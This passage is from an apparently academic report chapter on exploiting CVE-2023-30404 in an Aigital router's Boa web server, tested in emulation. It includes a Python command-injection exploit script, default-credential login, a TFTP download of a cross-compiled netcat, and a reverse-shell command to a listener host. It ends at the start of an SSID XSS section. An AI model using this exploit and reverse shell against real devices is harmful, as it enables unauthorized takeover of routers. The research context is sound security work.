\chapter{Exploiting}
\label{chap:exploiting}
    \section{Login By-pass}
        The router has a serious security vulnerability: For more than five minutes (5m:50s) after a user logs into the web app, there is no authentication mechanism in place. Anyone can therefore access the web app—all they need is another user’s login or the user’s credentials (in our case, the default credentials “admin:admin”).

    \section{RCE}
        After obtaining a stable emulated environment, as described in Chapter~\ref{chap:analysis}, we moved to the exploitation phase of CVE-2023-30404. The target of this vulnerability is the Boa web server handler exposed through the endpoint \emph{/boafrm/formSysCmd}.
        \\
        The firmware web interface includes a diagnostic command page, \emph{webcmd.htm}, which submits user-supplied commands to the Boa handler. From the analysis phase, we knew that the relevant parameter was \emph{sysCmd}. Therefore, the attack consists in sending an authenticated POST request to the following endpoint:

\begin{lstlisting}[language=bash]
http://192.168.10.253/boafrm/formSysCmd
\end{lstlisting}

        The request body contains the command to execute:

\begin{lstlisting}[language=bash]
sysCmd=<command>
\end{lstlisting}

            In our emulated setup, the firmware was reachable at \emph{192.168.10.253}, while the host machine used for testing was configured as \emph{192.168.10.100}. Before launching the exploit, we verified that the emulated firmware was reachable and that Boa was running:

\begin{lstlisting}[language=bash]
curl -I http://192.168.10.253/
\end{lstlisting}

        The response (Figure~\ref{fig:test_boa}) confirmed that the web server was the Boa instance extracted from the firmware:

\begin{lstlisting}[language=bash]
Server: Boa/0.94.14rc21
\end{lstlisting}

\begin{figure}[H]
      \centering
      
\includegraphics[width=0.88\textwidth]{../imgs/3.1-test_boa.png}
      \caption{Testing boa response}
      \label{fig:test_boa}
  \end{figure}

            We automated the exploit with this python script \cite{rce}. 
            \\
            The script accepts several options, which are explained in the help string and handled using the getopt library, as shown in the following code:
            
\begin{lstlisting}[language=python]
help_string = """
Utilizzo: python exploit.py [OPTIONS] [COMMAND]
OPZIONI:
    -h, --help              Mostra questo messaggio di aiuto
    -i, --interactive       Consente l'invio di molteplici comandi
    -c, --command <CMD>     Specifica un singolo comando da inviare
    -v, --verbose           Mostra la response delle richieste HTTP

ESEMPI: 
    python exploit.py -i -c 'ping -c 1 192.168.10.100' -v
    python exploit.py --interactive --command 'ping -c 1 192.168.10.100' --verbose

FUNZIONAMENTO:
    L'exploit sfrutta la CVE-2023-30404 per ottenere una RCE su un access
    point Aigital Wireless N, inviando una richiesta POST a /boafrm/formSysCmd.
"""

def handle_arguments():
    cmd = ""
    verbose = interactive = command_mode = False
    options = "hvic:"
    long_options = ["help", "verbose", "interactive", "command"]
    if len(args) == 0:
        print(help_string)
        sys.exit()

    arguments, values = getopt.getopt(args, options, long_options)
    for current_arg, current_val in arguments:
        if current_arg in ("-h", "--help"):
            print(help_string)
            sys.exit()
        elif current_arg in ("-v", "--verbose"):
            verbose = True
        elif current_arg in ("-i", "--interactive"):
            interactive = True
        elif current_arg in ("-c", "--command"):
            cmd = current_val
            command_mode = True

    return cmd, verbose, interactive

def main():
    try:
        cmd, verbose, interactive = handle_arguments()
        login(verbose)
        if not cmd == "":
            send_request(cmd, verbose) 
        if interactive:
            interactive_commands(cmd, verbose)
    except getopt.error as e:
        print(Fore.RED + str(e))
        return 2
    except KeyboardInterrupt:
        print(Fore.YELLOW + "\nUser Interrupt")
    except Exception as e:
        print(Fore.RED + str(e))
        return 1
    return 0


if __name__ == "__main__":
    sys.exit(main())
\end{lstlisting}
            
            Next, we used the requests library to send some HTTP requests to the router.
            \\
            First, the script attempts to log in to the router's web page; in our case, it was enough to include the default credentials in the request, but if they had been changed, they would have had to be changed in the request as well.
            
\begin{lstlisting}[language=python]
def login(verbose):
    url_login = "http://192.168.10.253/boafrm/formLoginHtm"
    headers_login = {
        "Host": "192.168.10.253",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Referer": "http://192.168.10.253/login.htm",
        "Content-Type": "application/x-www-form-urlencoded",
        "X-Requested-With": "XMLHttpRequest",
        "Content-Length": "62",
        "Origin": "http://192.168.10.253",
        "DNT": "1",
        "Connection": "keep-alive",
        "Sec-GPC": "1",
        "Priority": "u=0"
    }
    data_login = {
        "submit-value":"Login",
        "username":"admin",
        "password":"admin",
        "lang_select":"0"
    }

    resp = session.post(url_login, headers=headers_login, data=data_login, timeout=10)
    if verbose:
        print(resp.status_code)
        print(resp.text)
    return resp
\end{lstlisting}

            Next, depending on the startup mode (-c for a single command or -i to send a series of commands from a shell-like command line; however, since the RCE is “armored,” no response is received).

\begin{lstlisting}[language=python]
url = "http://192.168.10.253/boafrm/formSysCmd"
headers = {
    "Host": "192.168.10.253",
    "User-Agent": "Mozilla/5.0",
    "Accept": "text/html,application/html+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.10.253",
    "Referer": "http://192.168.10.253/setok.htm",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1",
}

def send_request(cmd, verbose):
    data = {"sysCmd": cmd}

    resp = session.post(url, headers=headers, data=data, timeout=10)
    if verbose:
        print(resp.status_code)
        print(resp.text)
    return resp

def interactive_commands(cmd, verbose):
    while True:
        if cmd == "":
            cmd = input('$ ')
        else:
            print(f"$ {cmd}")
        if cmd == "exit":
            print("Exiting...")
            sys.exit()
        send_request(cmd, verbose)
        cmd = ""
\end{lstlisting}

            We previously captured and saved the HTTP requests we send after submitting some test forms from the browser.
            
        \subsection{Executing Commands}

            The first step was to verify whether arbitrary commands could actually be executed. For this purpose, we used a harmless network command: \emph{ping}. The host machine was listening on the Firmadyne TAP interface, while the emulated firmware was instructed to ping the host.
            \\
            On the host side, we monitored ICMP traffic with \emph{tcpdump}:

\begin{lstlisting}[language=bash]
sudo tcpdump -i qemu-tap0 icmp -n
\end{lstlisting}

              Then, from the exploit script, we sent the following command:

\begin{lstlisting}[language=bash]
ping -c 4 192.168.10.100
\end{lstlisting}

              The interactive exploit mode was launched with:

\begin{lstlisting}[language=bash]
cd ~/CLionProjects/progetto_IoT/CVE-2023-30404
python exploit.py -i
\end{lstlisting}

              Inside the exploit prompt, the command was submitted as follows:

\begin{lstlisting}[language=bash]
$ ping -c 4 192.168.10.100
\end{lstlisting}

            Receiving ICMP packets on the host proved that the command was not merely accepted by the web interface, but was actually executed by the emulated firmware. This confirmed the presence of remote command execution through the Boa handler.
\begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{../imgs/esecuzione_ping.png}
        \caption{ICMP packets generated by a command executed through the Boa RCE on the router}
        \label{fig:test_ping}
\end{figure}
            The same result could also be observed directly from the Firmadyne console, where Boa logged network-related syscalls and accepted HTTP connections. During command execution, Firmadyne printed messages related to socket creation and packet transmission. This dynamic evidence was useful because it confirmed the path from HTTP request to system-level command execution.

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.2-rce_ping.png}
      \caption{ICMP packets generated by a command executed through the Boa RCE on firmadyne}
      \label{fig:test_ping}
  \end{figure}

            At this point, the vulnerability was confirmed: an authenticated HTTP request to \emph{/boafrm/formSysCmd} allowed execution of arbitrary commands on the device \cite{mandomat}.

        \subsection{Gaining Shell}

            After confirming command execution, the next objective was to obtain an interactive shell. The firmware already contained a minimal BusyBox environment, but the available tools were limited. Therefore, we needed to transfer a compatible \emph{netcat} binary to the emulated firmware.
            At the beginning, we tried to transfer a version of BusyBox containing netcat, unsuccessfully. For this reason, we
            decided to build a smaller standalone netcat binary compatible with the target architecture.

            The firmware runs on a MIPS big-endian system, so the binary had to be compiled for the same architecture. We used the netcat 0.7.1 source code and cross-compiled it with \emph{mips-linux-gnu-gcc}. The binary was
            built statically and optimized for size:

\begin{lstlisting}[language=bash]
cd tentativo_dimensione/netcat-0.7.1
./configure --host=mips-linux-gnu CC=mips-linux-gnu-gcc CFLAGS="-static -Os"
make
strip src/netcat
cp src/netcat nc
\end{lstlisting}

            The resulting binary was a stripped, statically linked MIPS big-endian executable. This was important because the emulated firmware could execute it without requiring additional shared libraries. 

            The transfer was performed using TFTP (Figure~\ref{fig:nc_tftp}). On the host, the binary was exposed through the TFTP server. Inside the emulated firmware, we downloaded it into \emph{/tmp}:

\begin{lstlisting}[language=bash]
cd /tmp
tftp -g -l /tmp/nc -r nc 192.168.10.100
chmod +x /tmp/nc
\end{lstlisting}

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.3-nc_tftp.png}
      \caption{Nc transfer by TFTP}
      \label{fig:nc_tftp}
  \end{figure}

            We verified that the uploaded binary was executable by running:

\begin{lstlisting}[language=bash]
/tmp/nc -h
\end{lstlisting}

              The output (Figure~\ref{fig:nc_help}) confirmed that the binary supported the \emph{-e} option, which allows executing a program after the TCP connection is established. This feature was necessary to spawn \emph{/bin/sh} over
              the network.

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.4-nc_help.png}
      \caption{Nc help}
      \label{fig:nc_help}
  \end{figure}

            On the host machine, we started a listener on port \emph{9001}:

\begin{lstlisting}[language=bash]
nc -nvlp 9001
\end{lstlisting}

            Then, through the RCE exploit, we sent the reverse shell command:

\begin{lstlisting}[language=bash]
/tmp/nc 192.168.10.100 9001 -e /bin/sh
\end{lstlisting}

            In the exploit interactive prompt, the command was submitted as:

\begin{lstlisting}[language=bash]
$ /tmp/nc 192.168.10.100 9001 -e /bin/sh
\end{lstlisting}

            On the listener (Figure~\ref{fig:shell}), we received a connection from the emulated firmware:

\begin{lstlisting}[language=bash]
Connection received on 192.168.10.253
\end{lstlisting}

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.5-rev_shell.png}
      \caption{Reverse shell}
      \label{fig:rev_shell}
  \end{figure}

            At that point, the shell was interactive. We verified it by executing simple commands (Figure~\ref{fig:ps}) such as:

\begin{lstlisting}[language=bash]
pwd
ls
ps
\end{lstlisting}

            The working directory observed through the shell was consistent with the Boa execution context. In our tests, the shell opened in a directory related to the web server configuration, such as \emph{/etc/boa}. This behavior was expected because the command was executed by the Boa process.

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.6-ps.png}
      \caption{Ps output}
      \label{fig:ps}
  \end{figure}

            This completed the exploitation of CVE-2023-30404 both in the emulated environment and the real router. The vulnerability allowed us to move from authenticated web access to command execution, and then from command execution to an interactive shell and in Figures~\ref{fig:response} and~\ref{fig:confirm} is shown the response on boa server and the proof of the success of the attack.
            
\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.7-response.png}
      \caption{Response of Boa Server}
      \label{fig:response}
  \end{figure}

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.8-conferma_server.png}
      \caption{Success of the attack}
      \label{fig:confirm}
  \end{figure}

            The same test was later repeated against the patched Boa binary. In that case, the HTTP request was still accepted by the server, but the vulnerable handler returned immediately and the \emph{nc} process was not spawned. This comparison is discussed in Chapter~\ref{chap:fixing}.
    \section{XSS}

        Another vulnerability analyzed in the project was CVE-2023-30405, a cross-site scripting issue related to the web interface. The general idea is that a user-controlled value, such as the wireless SSID, is stored or reflected by the device and later inserted into the web interface without proper escaping.
        \\
        During the analysis phase, we identified the SSID rendering logic as the relevant sink. If the value is inserted into the DOM using \emph{innerHTML}, the browser interprets the value as HTML. If the SSID contains HTML or JavaScript event handlers, the browser may execute attacker-controlled code.
        \\
        In a real device scenario, the attacker would modify the SSID to contain a malicious payload. When an administrator later visits the affected page, the payload is rendered by the browser. In our Firmadyne environment, the original Realtek configuration handlers were not fully reliable, so we reproduced the same vulnerable rendering behavior in the stabilized web interface while keeping the original Boa server and the original web application structure.
        
        \subsection{Exploitation}
